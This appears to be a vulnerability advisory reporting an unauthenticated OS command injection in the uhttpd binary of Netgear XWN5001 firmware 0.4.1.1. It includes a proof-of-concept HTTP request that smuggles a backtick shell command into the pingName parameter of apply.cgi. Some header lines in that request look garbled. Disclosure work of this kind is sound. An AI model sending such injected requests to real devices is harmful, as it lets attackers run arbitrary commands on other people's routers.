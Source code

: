 # xwn5001-0.4.1.1
## Firmware version
xwn5001-0.4.1.1

The firmware can be downloaded at https://www.netgear.com/support/product/xwn5001/.
## description
The Netgear xwn5001-0.4.1.1 uhttpd binary contains a OS Command Injection vulnerability, allowing unauthenticated remote attackers to inject arbitrary OS commands and execute them on the server.
## detail
The vulnerability is located in the function at address 0x439D50 of the binary usr/sbin/uhttpd. 

Parameter pingName is passed to system (line 27 in the picture) and cause the issue.

diag:

![diag](diag.png)




## Send package

```txt
GET /apply.cgi?c HTTP/1.1
Host: /cgi-bin/
tamp
Accept: 69
Co
Content-Length: 650

pingName=`echo 123 > /poc`&diag_type=1&det_multiplexing=123&submit_flag=diag
```

## Result

![result](result.png)